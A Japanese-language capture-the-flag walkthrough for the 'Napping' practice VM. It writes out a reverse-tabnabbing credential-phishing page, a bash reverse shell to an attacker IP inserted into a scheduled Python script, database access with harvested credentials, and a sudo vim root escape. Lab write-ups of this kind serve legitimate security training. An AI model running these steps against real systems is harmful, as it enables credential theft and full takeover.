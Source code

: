 ## napping
- 起動ができないなら、通常起動する
### 説明
- このサイトは初めに自分のユーザ名とパスワードを登録することで、自分の作成したWebサイトをアピールするために自分のIPアドレスを登録することができるサイト。
### ポートスキャンまで同じ
- `192.168.56.105`
### (おまけ)UDPのポートスキャンをする
- `sudo nmap -sU -p 1-10 $IP`
  - UDPのポートスキャンは時間がかかるので、ポートスキャンを1~10にしている

### サイトにアクセスする。
- ログインページだが、ユーザもパスワードもわからないのでsign upから自分のを登録する。ここではユーザ名を`evil`、パスワードを`password`とする
- welcomeページが出てくるので翻訳して読んでみる

### ソースコードを見る
- `<a href="maicious.html" target="_blank">新規タブで開く</a>`
  - このコードは実は脆弱性があるのでタブナビング攻撃ができる
- `<a href="maicious.html" target="_blank" rel="noopener noreferrer">新規タブで開く</a>`
  - このコードが正しい   
### WFuzz
- wfuzzはhttpリクエストのヘッダーの値を自由に調整することができる
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-files.txt --hc 404 "$IP/FUZZ"`
  - `-c`color出力
  - `-z`辞書の指定
  - `--hc 404`404は表示しない 
- config.phpは気になるので見てみる
  - 特に何も得られない 
### タブナビング攻撃の準備
- タブナビング攻撃とはターゲットサーバに悪意のあるコードをアップロードしてログインページのuser名とパスワードを入力してボタンを押すと、parrotOS側の偽サイトにリダイレクトされ、そこでもう一度user名とパスワードを入力することでuser名とパスワードを盗む
- nappingディレクトリに次の2つのファイルを作る
  - `get_info.html` このファイルは、次のコマンドで入手する
  - `wget $URL/index.php > get_info.html` 
  - `evil.html` このファイルは以下のをvimで書く
    ```html
    <!DOCTYPE>
    <html><body><script>
        if (window.opener){
          window.opener.location="http://192.168.56.105:31337/get_info.html";
        }
    </script></body></html>
    ```
- ターミナルを新しく２つ開ける。両方ともnappingフォルダに移動して、各々のコマンドを打つ。何をしているかというと、80番ポートで入ってきたevil.phpをリダイレクトで31337番ポートに送信してget_info.htmlに到達して、そこでユーザ名やパスワードを入力させたものを盗み見る
  - `sudo python3 -m http.server 80`
  - `nc -lvnp 31337`

### タブナビング攻撃の開始
- webサイトのログインページにアクセスしてログインして、ParrotOS側のIPアドレスを登録する
- `http://192.168.56.102/evil.html`
- submitを押して、下のhereを押すと真っ白な画面になるが、2分ぐらい放っておくとターミナルのサーバ履歴にアクセスがありuser,passwordがわかる
- `C%40ughtm3napping123` %40は@のこと

|ユーザ名|パスワード|
|:--|:--|
|daniel|C@ughtm3napping123|

### danielでssh
- `ssh daniel@192.168.56.105`


### システム内探索
- `id`
  - ユーザが1001,1002の複数所属しているグループを確認する
- `sudo -l`
- SUIDを確認
  - SUIDはファイルの所有者の権限を引き継いで実行するというパーミッション 
- SQLの設定ファイルを見る
  - `/var/www/html/config.php`
  - ユーザとpasswordがわかる

### データベースにアクセスする
- データベースに接続する
  - `mysql -u adrian -p`
  - プロンプトが変化する 
- データベース一覧を見る
  - `show databases;` 
- データベースの選択
  - `use website;`
- テーブルを見る
  - `show tables`
- ユーザを見る
  - `select * from users\G`
  - \Gをつけると;はいらない
- 特に何もない
- `quit;`

### danielユーザでできることが何もない
- このグループで実行できる他のユーザを探す
- `groups`
  - administratorsグループに属しているのがわかる
- 登録ユーザでbashが使えるユーザを特定する
  - `cat /etc/passwd | grep "bash"`
### グループの利用可能なファイルを探す
- `find / -group administrators 2> /dev/null`
- `/home/adrian/query.py`が見つかる。
- ファイルを調べる
  - query.pyは何をしている？ 
  - `ls -l /home/adrian/query.py`
  - 書込み、読み込みはできるが実行はできない

- query.pyは定期的に呼び出されて、ファイルは書き込みができるのでリバースシェルでadrianユーザに変更を目指す
  
### リバースシェルの準備
- `/dev/shm/`ディレクトリにvimで次のrevshell.shを書く
- revshell.shファイルを作る
  ```
  #/bin/bash
  bash -c 'bash -i >& /dev/tcp/192.168.56.102/4242 0>&1'
  ```
  - (参考)ncコマンドやmkfifoコマンドでリバースシェルをやってみる
- `chmod +x revshell.sh`
- vimでquery.pyに`os.system('/usr/bin/bash /dev/shm/revshell.sh')`を書き込む
```py
import os

os.system('/usr/bin/bash /dev/shm/revshell.sh')

now = datetime.now()
```
### リバースシェルのセッションの確立
- ParrotOS側のターミナル
- `nc -lvnp 4242`
- 2分ほど待ってるとセッションが確立される

### 対話シェルを奪取


### ルートシェルの取得
- `sudo -l`
- `sudo /usr/bin/vim -c ':!/bin/sh'`
- `cd /root`
- `ls`
- `cat root.txt`

### (おまけ)danielユーザがhttpリクエストしてくるのを見る
- rootを対話的シェルにする
- `cd /root;ls`
- `cat nap.py`
  - for文でリクエスト(request.get)を送っているのがわかる 

## 初めからやりおなす時のMySQLの削除
- `mysql> delete from users where username='evil';`
